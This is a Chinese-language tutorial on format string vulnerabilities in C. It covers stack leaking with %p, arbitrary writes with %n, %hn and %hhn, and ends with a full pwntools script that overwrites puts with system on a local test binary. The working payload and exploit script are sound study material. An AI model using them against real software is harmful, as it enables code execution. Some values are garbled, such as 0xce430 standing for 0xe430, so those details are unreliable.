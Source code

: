 # stack



## 格式化字符串



### 格式字符串漏洞是如何工作的？

格式字符串漏洞是一类通过利用程序员容易避免的错误来实现攻击的漏洞。如果程序员将一个**攻击者控制的缓冲区（如：char 数组，字符串）**作为参数传递给`printf`（或任何相关的函数，包括`sprintf`、`fprintf`等），攻击者就可以执行对任意内存地址的写入操作。

以下程序包含此类错误：

```c
#include<stdio.h>

int main(void){
    char buff[100];
    scanf("%s",buff);
    printf(buff);
    return 0;
}
```



由于 **printf** 具有可变数量的参数，它必须使用格式字符串来确定参数的数量。在上述情况下，攻击者可以通过传递字符串 **"%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"** ，使 **printf** 误以为它有15个参数。它会天真地打印出栈上的接下来15个地址，认为它们是它的参数：

```
$ echo "%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" | ./a.out 
0xffffdddd 0x64 0xf7ec1289 0xffffdbdf 0xffffdbde(nil) 0xffffdcc4 0xffffdc64(nil) 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```



**实际参数 vs 可选参数**

```
printf("%d %d %d",a,b,c);
```

- **字符串 "%d %d %d"** 是传递的第**一个实际参数**
- **变量 a** 是传递的第**二**个实际参数，或者说是第**一**个可选参数
- **变量 b** 是传递的第**三**个实际参数，或者说是第**二**个可选参数
- **变量 c** 是传递的第**四**个实际参数，或者说是第**三**个可选参数

**总结：除第一个字符串以外的实际参数，其他所有参数都是可选参数，可选参数位置为实际参数位置减一。**



通常，**printf("%2$x", 1, 2, 3)**将打印 **2（第二个可选参数）**，我们可以使用  `printf("%<some number>$x")` 来选择打印 `printf` 的任意可选参数。

```
$ echo "%10$p %20$p" | ./a.out
```

- **%10$p** 打印第 10 个可选参数，栈上的第 11 个参数（实际参数）
- **%20$p** 打印第 20 个可选参数，栈上的第 21 个参数（实际参数）





大约在栈上第10个参数处，我们可以看到**“重复内容” 0x25207025 ** ——这些是我们的**字符串 "%p%p%p%p..."** 在**栈上的 16进制**表示！

在我们的情况下，我们看到`0x41414141`是`printf`的第10个参数，因此我们可以简化我们的字符串：

```
$ echo 'AAAA%10$p' | ./a.out 
AAAA0x41414141
```



**一个其他的示例：**

因为字符串数组 **buff** 定义在栈上，且**源代码**中 **char buff[100];** 在 **printf(buff);** 之前，所以**字符串buff 在栈上的地址，高于通过栈传递给 printf 函数的参数的地址**。

通过**传递字符串 AAAAAA...**，可以更明确地看到这一点：

```
(gdb) x/20xw $esp 
0xffffcefc:	0x080491d0	0xffffcf18	0xffffcf18	0x0804821c
0xffffcf0c:	0x0804919d	0xf7ffdb8c	0x00000001	0x41414141
0xffffcf1c:	0x41414141	0x00414141	0x00000001	0xf7ffda20
0xffffcf2c:	0x00000000	0x00000000m	0xffffd1ab	0x00000002
0xffffcf3c:	0x0000001c	0xf7ffcfe8	0x00000018	0x00000000
```

**0xffffcefc** 存储 printf 函数中指向 ret 语句返回到 main 函数中的具体地址。

**0xffffcf00** 存储 printf 函数第 1 个参数。

**0xffffcf04** 栈上原有的内容，但是会被 printf 视为它的第 2 个参数（第 1 个可选参数）。

**0xffffcf17** 栈上原有的内容，也是字符串数组 buff 的首地址，也会被 printf 视为它的第 7 个参数（第 6 个可选参数）。



**打印第 1 个和第 6 个可选参数：**

```
$ echo "AAAA%1$p %6$p" | ./a.out
AAAA0xffffcf18 0x41414141
```



那么如何将其转换为**任意内存写入**呢？ **printf** 有一个非常有趣的格式说明符 **%n**。根据 **printf** 的手册页：

- 已经写入的字符数存储到由 **int***（或变体）指针参数指示的整数中。不转换任何参数。



如果我们传递字符串 **AAAA%10$n**，我们会将**值 4** 写入地址 **0x41414141** ！

我们可以使用printf的另一特性来写入更大的值：如果我们执行 **printf("AAAA%100x")** ，将会输出 **104 个字符（因为%100x会将参数填充到至少100个字符）**。



我们可以做 `AAAA%<value-4>x%10$n` 来向 **0x41414141** 写入任意值。构造：

- **AAAA** 一个 4 字节的字符串（在十六进制中表示为 `0x41414141`），它将被放置在栈上，实际中使用写入的目标位置来替换AAAA。
- **`%<value-4>x`**  是一个具体的数值，是要写入到目标位置的整数值，为什么要减去 4？因为 **AAAA** 已经占用了 4 个字符的位置。如果我们想让 **printf** 输出总共 `<value>` 个字符，那么我们需要从 `<value>` 中减去这 4 个字符，以确保最终写入的值是正确的。
- **%10$n** 
    - `%n` 是一个特殊的格式说明符，它不会像 `%x` 或 `%d` 那样输出任何内容，而是将 `printf` 到目前为止已经输出的字符数存储到由对应参数指定的内存地址中。
    - `10$` 表示我们想要引用栈上的第 10 个参数。通过这种方式，我们可以精确地控制 `printf` 将字符数写入到哪个内存地址。
    - 在这个例子中，`AAAA` 被放置在栈上的某个位置，而 `%10$n` 会将已经输出的字符数（即 `<value-4>`）写入到 `AAAA` 所指向的内存地址 `0x41414141`。



如果要写入的地址为 **0x2a87ce430**，转为整形为**11416691760**，也就说 **printf** 要打印 **11416691760** 个字符，这需要等待很久很久的时间。

**printf 支持 %hn 和 %hhn** 选项：

- **%hn** 会将已输出的字符数作为**短整型**（**short int**），在 32 位系统中为 **2 字节**，写入到由参数指向的内存位置。
- **%hhn** 会将已输出的字符数作为**带符号字符**（**signed char**），在 32 位系统中为 **1 字节**，写入到由参数指向的内存位置。



将 **0x2a87ce430** 拆分为 **0x2a87** 和 **0xce430**，因为使用的是**小端**，小端**低位**在内存中为**低地址**，**高位**在内存中是**高地址**，分两次写入目标地址的**高两位地址**和**低两位地址**。

**0x2a87** 对应内存中的**高地址**，**0xce430** 对应内存中的**低地址**。

假设写入的目标地址为 **0x804c010**，则 **0x2a87** 写入 **0x804c012（0x804c010 + 2）**， **0xce430** 写入 **0x804c010**。



假设只有一次利用 printf 的机会，所以必须在**一次 printf** 中分别写入**高两位和地两位**，由于 **%n** 是统计**输出的所有字节数**，所以必须先写入**值小的两位**，再写入**值大的两位**。

**0x2a87** 的整形为 **10887**，小于 **0xce430（58416）**，所以先写入 **0x2a87** 到**高两位**，再写入 **0xce430** 到**高两位**。



**存在格式化字符串漏洞的 C 程序的源代码为（关闭所有地址随机化）：**

```
char buff[100];
read(0,buff,100);
printf(buff);
puts(buff);
```

![image-20241212192559079](./images/stack.assets/image-20241212192559079.png)

利用格式化字符串漏洞，将 **puts 函数跳转的地址**，**覆盖为 system 函数的地址**。

python 利用脚本：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = "DEBUG"
context.terminal =  ['tmux', 'splitw', '-h']


# p = remote("1.95.36.136",2107)

p = process('./test')
gdb.attach(p,gdbscript='''
    break * main + 84
    break * main + 99
    c
    x/20xw $esp
    x/20xb $esp + 24
    print system
    display 0x804c010
    display/xw 0x804c010
    ''')

puts = 0x804c010
aaaa = p32(puts)
bbbb = p32(puts + 2)

system = 0xf7dce430
low = (system & 0xFFFF) - 12
high = ((system >> 16) & 0xFFFF) - (system & 0xFFFF)

payload = b'sh;#' + aaaa + bbbb + b'%' + str(low).encode() + b'x%7$hn%' + str(high).encode() + b'x%8$hn'

p.readline()

p.sendline(payload)


p.interactive()
```

